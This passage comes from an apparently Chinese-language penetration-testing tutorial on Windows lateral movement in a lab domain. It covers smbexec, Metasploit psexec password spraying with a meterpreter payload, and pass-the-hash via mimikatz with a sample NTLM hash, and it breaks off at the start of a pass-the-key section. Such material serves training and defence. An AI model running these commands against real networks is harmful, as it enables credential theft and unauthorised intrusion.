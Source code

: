 ##### 3.4 smbexec

python smbexec.py ./:@192.168.52.136  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153202527.png)

### 4.密码喷洒

##### 4.1利用metasploit进行密码喷洒

msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/bind_tcp  
msf6 exploit(windows/smb/psexec) > set smbuser user.txt  
msf6 exploit(windows/smb/psexec) > set smbpass password.txt  
msf6 exploit(windows/smb/psexec) > set rhost 192.168.52.0/24  
msf6 exploit(windows/smb/psexec) > run

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153207472.png)

### 5.PTH-哈希传递

PTH，即Pass The Hash，通过找到与账号相关的密码散列值(通常是NTLM Hash)来进行攻击。在域环境中，用户登录计算机时使用的大都是域账号，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号和密码也是相同的，攻击者就可以使用哈希传递的方法登录到内网主机的其他计算机。

##### 5.1 利用条件

> 1、在工作组环境中：  
> Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。  
> Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问  
> 2、在域环境中：  
> 只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器  
> 如果要用普通域管理员账号进行哈希传递攻击，则需要修改修改目标机器的 LocalAccountTokenFilterPolicy为1

##### 5.2 MiMiKatz-PTH

1.  mimikatz privilege::debug
    
2.  mimikatz sekurlsa::pth /user:administrator /domain:goksec.org /ntlm:8a963371a63944419ec1adf687bb1be5
    
3.  steal_token PID
    

![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153211890.png)  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153215434.png)  
![在这里插入图片描述](https://minioapi.nerubian.cn/image/20250408153220431.png)

### 6.PTK-mimiKatZ

即Pass The Key ，当系统安装了KB2871997补丁且禁用了NTLM的时候，那我们抓取到的ntlm hash.也就失去了作用，但是可以通过pass the key的攻击方式获得权限。

##### 761 利用条件

> 获取用户的aes key
